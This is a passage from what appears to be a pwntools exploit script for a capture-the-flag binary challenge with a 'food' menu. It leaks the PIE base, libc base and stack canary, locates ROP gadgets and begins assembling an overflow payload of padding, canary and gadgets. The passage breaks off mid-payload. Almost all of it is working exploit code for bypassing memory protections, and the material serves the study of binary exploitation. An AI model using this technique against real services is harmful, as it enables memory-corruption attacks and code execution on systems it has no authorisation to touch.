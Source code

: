 ```py
    sh.sendline(b'1')
    sh.sendline(b'1')

    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'1')

    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'1')

    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'1')

    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'1')

    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'1')

def get_inside_vuln():
    sh.sendlineafter(b'food',b'1')
    sh.sendline(b'2')
    sh.sendline(b'aa')

sh = start()
# pause()

leak_pie = pie_leak(15)
info(f'LEAKED PIE BASE: {hex(leak_pie)}')
elf.address = leak_pie - 0x174a
success(f'PIE_BASE --> {hex(elf.address)}')

libc_addr = libc_leak(25)
info(f'LIBC --> {hex(libc_addr)}')
libc.address = libc_addr - 0x21b97
success(f'LIBC_BASE --> {hex(libc.address)}')

# canary = canary_leak(23)
canary = canary_leak(13)
success(f'CANARY --> {hex(canary)}')

'''
pwndbg> x/i 0x7fbbef13d18a
   0x7fbbef13d18a <__libc_start_call_main+122>: mov    edi,eax
pwndbg> x/gw 0x7fbbef13d18a
0x7fbbef13d18a <__libc_start_call_main+122>:    0xffe8c789
pwndbg>s
'''

rop = ROP(elf)
rdi = rop.find_gadget(['pop rdi', 'ret']).address
success(f'RDI GADGET --> {hex(rdi)}')

ret = rop.find_gadget(['ret']).address
success(f'RET GADGET --> {hex(ret)}')

spend_rocks()

p = flat([
    asm('nop') * 0x18,
    canary,
    asm('nop') * 0x8,
    ret,
    rdi,
```